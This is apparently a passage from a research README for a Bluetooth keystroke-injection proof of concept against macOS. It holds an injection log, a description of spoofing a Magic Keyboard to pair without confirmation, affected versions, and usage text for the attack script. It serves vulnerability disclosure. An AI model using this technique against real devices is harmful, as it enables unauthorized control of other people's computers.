 ```
[2024-01-07 11:00:17.705]  [TX-19] a101000000000000000000
[2024-01-07 11:00:17.759]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:17.764]  [TX-19] a101000000000000000000
[2024-01-07 11:00:17.818]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:17.823]  [TX-19] a101000000000000000000
[2024-01-07 11:00:17.877]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:17.882]  [TX-19] a101000000000000000000
[2024-01-07 11:00:17.936]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:17.941]  [TX-19] a101000000000000000000
[2024-01-07 11:00:17.995]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:18.000]  [TX-19] a101000000000000000000
[2024-01-07 11:00:18.054]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:18.059]  [TX-19] a101000000000000000000
[2024-01-07 11:00:18.113]  [TX-19] a10100002b000000000000
[2024-01-07 11:00:18.118]  [TX-19] a101000000000000000000
[2024-01-07 11:00:18.172]  [TX-19] a10100002b000000000000
...
[2024-01-07 11:00:27.102]  [TX-19] a101000000000000000000
[2024-01-07 11:00:27.157]  payload has been transmitted; disconnecting Bluetooth HID client
[2024-01-07 11:00:27.157]  taking 'hci1' offline
```

### macOS Keystroke Injection

When a Mac is attempting to connect to a paired Magic Keyboard over Bluetooth, an attacker can spoof the Magic Keyboard to the Mac, pair a virtual Bluetooth keyboard, and inject keystrokes without user confirmation.

This attack has a timing component, where the attacker must connect to the Mac at the precise moment the Mac attempts to connect to the Magic Keyboard.

The included PoC fires when a Magic Keyboard is unplugged from its Mac (after e.g. charging or pairing). The PoC uses the Bluetooth SDP service on the Mac as a side-channel to observe the unplug event and trigger the attack. This is a zero-click attack that requires observing a Magic Keyboard get unplugged from a Mac.

#### Affected Versions

- macOS 14 is vulnerable prior to 14.2
- macOS 13 and 12 are vulnerable with no patch expected
- macOS 11 and older were not tested

#### Starting State

- Bluetooth is enabled on the Mac.
- The Magic Keyboard is powered on and connected the Mac using a Lightning-to-USB cable.
- The PoC injects keystrokes to open a web browser and perform a Google search. It is also possible to inject keystrokes at the login screen, however this PoC assumes that the Mac is at an active session.

#### Running the PoC

```
> ./keystroke-injection-macos.py --help
usage: keystroke-injection-macos.py [-h] -i INTERFACE -t TARGET_ADDRESS -k KEYBOARD_ADDRESS

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
  -t TARGET_ADDRESS, --target_address TARGET_ADDRESS
  -k KEYBOARD_ADDRESS, --keyboard_address KEYBOARD_ADDRESS
```

